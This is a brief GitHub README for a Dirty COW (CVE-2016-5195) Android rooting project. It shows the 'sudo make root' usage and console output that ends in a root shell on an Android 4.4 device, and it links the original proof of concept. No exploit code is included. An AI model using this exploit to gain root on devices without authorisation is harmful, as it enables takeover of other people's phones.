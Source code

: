 # DirtyCowAndroid
Repo For Working on Dirty Cow Based Android Root Method    
Currently Linux Only    
Youtube: https://www.youtube.com/watch?v=bzrRWfDOQcM  
    
Should Spawn a root shell on device  
Usage sudo make root  
Output:  
[*] mmap 0xb6f00000  
[*] exploit (patch)  
[*] currently 0xb6f00000=464c457f  
[*] madvise = 0xb6f00000 13708  
[*] madvise = 0 1048576  
[*] /proc/self/mem 0 1048576  
[*] exploited 0xb6f00000=464c457f  
adb shell /system/bin/run-as  
running as uid 2000  
uid 0  
root@ZTE-V811:/ #
  
Tested On Android Kitkat 4.4  
Oringal PoC Code: https://github.com/timwr/CVE-2016-5195

